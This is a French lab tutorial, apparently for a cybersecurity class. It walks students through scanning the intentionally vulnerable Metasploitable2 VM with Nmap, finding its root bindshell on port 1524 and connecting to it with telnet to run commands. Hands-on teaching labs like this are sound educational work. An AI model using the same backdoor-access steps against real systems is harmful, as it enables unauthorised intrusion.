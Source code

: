 # Vulnérabilités: Ouverture d'une "backdoor" sur la machine Metaspoitable directement avec le protocole Telnet.

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....
>Port     STATE    Service    Version
>
> 21/tcp   open  ftp   vsf......
>
> **1524/tcp    open  bindshell   Metasploitable root shell**
>  .....

* **bindshell** est unz technique pour ouvrir un port sur une machine.

On va donc essayer de se connecter directement avec le protocol Telnet sur la machine.

    telnet 192.168.56.xx 1524

* On a donc le protocole telnet
* L'adresse ip de la cible
* Le port sur lequel on veut se connecter , ici celui de bindshell le 1524

Résultats:
>
> {*] exec:  telnet 192.168.56.xx 1524
>
>trying 192.168.56.xx
>
>connected to 192.168.56.xx

------

## Test la backdoor

On peut se déplacer dans le répertoire games , créer un répertoire dirtelnetvotrenom, ....

    ls

    cd home

    ls

    cd 

    mkdir dirciel

    ls

On peut verifier sur la machine VM Linux vulnérable Metaspoitable , le répertoire dirciel existe.

>[!TIP]
>
> INCONVENIENT : Telnet est a eviter car il laisse les message en clair sur le reseau sans les crypter.
>
> AVANTAGE : Telnet peut servir à tester la communication vers un port facilement.
